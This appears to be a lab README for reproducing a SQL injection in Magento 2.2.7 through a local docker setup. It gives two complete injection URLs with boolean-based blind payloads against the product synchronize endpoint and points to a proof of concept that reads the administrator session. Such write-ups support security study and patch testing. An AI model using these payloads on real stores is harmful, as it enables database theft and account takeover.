 # Magento 2.2 SQL Injection

[中文版本(Chinese version)](README.zh-cn.md)

Magento is a professional open-source e-commerce platform developed in PHP using the Zend Framework. It is designed to be highly flexible with a modular architecture and rich functionality.

A bug exists in its `prepareSqlCondition` function where a second string formatting introduces an unexpected single quote, leading to an SQL injection vulnerability.

References:

- https://www.ambionics.io/blog/magento-sqli
- https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html

## Environment Setup

Execute the following command to start Magento 2.2.7:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` to see the Magento installation page. During installation, set the database address to `mysql`, username and password both as `root`, and keep other settings as default:

![](1.png)

## Vulnerability Reproduction

Visit the following links:

- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-`
- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-`

You can see that when executing `))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -` and `))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`, the returned HTTP status codes are different:

![](2.png)

![](3.png)

By changing the OR condition, you can perform SQL boolean-based blind injection.

Using [this POC](https://github.com/ambionics/magento-exploits), you can read the administrator's session:

![](4.png)
